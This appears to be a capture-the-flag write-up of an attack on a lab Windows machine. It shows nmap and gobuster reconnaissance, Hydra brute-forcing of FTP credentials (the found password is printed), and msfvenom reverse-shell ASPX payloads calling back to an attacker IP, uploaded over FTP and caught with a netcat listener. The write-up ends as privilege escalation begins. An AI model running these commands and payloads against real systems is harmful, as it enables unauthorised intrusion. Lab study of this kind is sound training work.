 <h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/8309287c-1280-4c6c-aab7-4751ac0c2279"></picture></h1>

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Reconnaissance & Scanning</h1>

```bash
arp-scan -I eth0 --localnet --ignoredups
```
![image](https://github.com/user-attachments/assets/96c23aba-8922-4021-9daf-b626cd3c91aa)

```bash
ping -c 1 192.168.1.154
```
![image](https://github.com/user-attachments/assets/d28063e8-0e31-4da3-a932-cad363ed36ba)

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.180 -oG allports
```
![image](https://github.com/user-attachments/assets/7e2bca7c-88f6-4548-9b2c-7f3bb158aad3)

```bash
nmap -sCV -p21,80,135,139,445,49152,49153,49154,49155,49156,49157 192.168.1.180 -oN targeted
```
![image](https://github.com/user-attachments/assets/1e8cfde2-0bc6-40e0-b81d-bb7623cdf150)

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Vulnerability Assessment</h1>

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 80</h2>

![image](https://github.com/user-attachments/assets/f5a410d8-838e-4e26-aaf3-5adee82a12f6)

``CRTL+U``
<br>
<br>
![image](https://github.com/user-attachments/assets/1ad23d93-a26a-4787-b8b8-d1a4b15e0d24)

### **Fuzzing**
```bash
gobuster dir -u http://192.168.1.180/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![image](https://github.com/user-attachments/assets/05ea476b-4c5b-4d69-a7ce-7100fca16a53)

```bash
whatweb https://192.168.1.180
```
![image](https://github.com/user-attachments/assets/a9485353-0de8-4b79-bd39-468b80a2a6aa)

### **we didn't find anything relevant**

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 445</h2>

```bash
sudo nmap --script "vuln and safe" -p445 192.168.1.180
```
![image](https://github.com/user-attachments/assets/a10cfba9-81df-4752-8595-0cfb87186bdc)

### **not vulnerable to EternalBlue**

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"></picture>RPC Protocol</h2>

```bash
rpcclient -U "" -N 192.168.1.180
srvinfo
querydispinfo
enumdomusers
getdompwinfo
```
![image](https://github.com/user-attachments/assets/c1825bc6-33ed-4720-8da0-ee814e5c3b52)

### **we found nothing**

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 21</h2>

### **Brute Force**
```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords.txt ftp://192.168.1.180
```
![image](https://github.com/user-attachments/assets/f87eb6f4-5b0e-4b8e-bcba-339876bf1268)

USER:    info
<br>
PASSWD:  PolniyPizdec0211

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Gaining Access</h1>

### **FTP Connection**
```bash
ftp 192.168.1.180
```
![image](https://github.com/user-attachments/assets/deac17fa-b655-4e1a-b01d-190d7f24df61)

We already have access via port 21, but in order to gain access to the machine we must upload our malicious file to obtain a more stable connection, remember that we are dealing with a windows machine but we do not know if it is 32 or 64 bits so we will have to create two files and upload them.

Win 64bits
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.228 LPORT=443 -f aspx -o win64.aspx
```

Win 32bits
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.228 LPORT=443 -f aspx -o win32.aspx
```
![image](https://github.com/user-attachments/assets/e91d426c-427f-44ce-b8c1-67f685f5f5cd)
![image](https://github.com/user-attachments/assets/9836bb42-361c-42d0-be6b-95c46d9c0444)

We will now upload our malicious files via ftp service
```bash
put win64.aspx
put win32.aspx
```
![image](https://github.com/user-attachments/assets/64d2625c-224c-4c5f-95de-4206de836e34)

we put ourselves in listening mode through port 443 that we configured in our malicious code and from the web we call our files waiting for a connection.

```bash
nc -nlvp 443
```
![image](https://github.com/user-attachments/assets/efc26a9b-fd32-4ac2-b3e1-8a3da1957847)
![image](https://github.com/user-attachments/assets/d84867ea-3b47-4c19-b5b5-2bf44b92c01d)
![image](https://github.com/user-attachments/assets/b19ac984-dd3f-4fb8-b752-76716226354e)
![image](https://github.com/user-attachments/assets/23a10d09-1f99-495a-bf64-c07d0fc70a8b)

```bash
whoami
systeminfo
```
![image](https://github.com/user-attachments/assets/33f56c3d-2715-41ac-9784-16838e9dd2b6)

we are looking for possible vulnerabilities that would allow us to elevate privileges

![image](https://github.com/user-attachments/assets/0acbfa09-e55f-4641-b24a-b9f0413c8039)
![image](https://github.com/user-attachments/assets/ba2e0721-98c2-4add-bbdf-f65ad49a4f98)
![image](https://github.com/user-attachments/assets/dd5af650-cea6-4d71-863f-4aec5c2e74fc)

